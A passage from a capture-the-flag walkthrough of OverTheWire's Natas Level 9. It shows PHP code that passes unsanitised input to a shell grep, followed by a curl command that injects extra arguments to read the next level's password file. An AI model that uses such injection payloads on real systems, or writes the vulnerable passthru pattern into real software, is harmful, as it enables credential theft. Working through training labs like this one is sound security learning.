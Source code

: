 [*Back to top*](#overthewire---natas)

## Level 9

![natas9_index.jpg](screenshots/natas/natas9_index.jpg)

Here's the [sourcecode](http://natas9.natas.labs.overthewire.org/index-source.html):

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

This page uses the `passthru` command to send our input to the server using the `needle` parameter. Luckily for us, there is no input sanitization so we can enter whatever we want and the server will execute it for us. All we need to do is ensure it can be properly executed with the `grep -i` command.

```bash
curl -s "http://natas9:$natas9_pass@natas9.natas.labs.overthewire.org/" --data-urlencode "needle=. /etc/natas_webpass/natas10;" | sed "s/$natas9_pass//g" | egrep -o [[:alnum:]]{32}
```

[*Back to top*](#overthewire---natas)

## Level 10
